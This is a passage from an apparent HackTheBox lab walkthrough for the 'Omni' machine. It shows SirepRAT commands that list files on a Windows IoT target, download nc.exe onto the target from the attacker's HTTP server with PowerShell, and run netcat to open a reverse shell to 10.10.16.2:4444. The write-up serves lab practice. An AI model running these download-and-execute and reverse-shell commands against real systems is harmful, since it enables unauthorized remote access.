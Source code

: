   * list directory
  * ` sudo python3 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --cmd "C:\Windows\System32\cmd.exe" --args "/c dir c:\\ " --return_output --v`

   <img src="/img/omni/dir.PNG" alt="Getting-gz" width="800" height="300">
  
   * `python -m SimpleHTTPServer`
   *  I uploaded the nc.exe
   * `sudo python3 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --cmd "C:\Windows\System32\cmd.exe" --args "/c powershell IWR -Uri 'http://10.10.16.2:8000/nc64.exe' -Outfile c:\nc.exe " --return_output --v`
              
   
   
<img src="/img/omni/nc.PNG" alt="Getting-gz" width="800" height="440">

    * `sudo python3 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --cmd "C:\Windows\System32\cmd.exe" --args "/c C:\nc.exe 10.10.16.2 4444 -e cmd.exe  " --return_output --v`
    
<img src="/img/omni/connect.PNG" alt="Getting-gz" width="800" height="300">
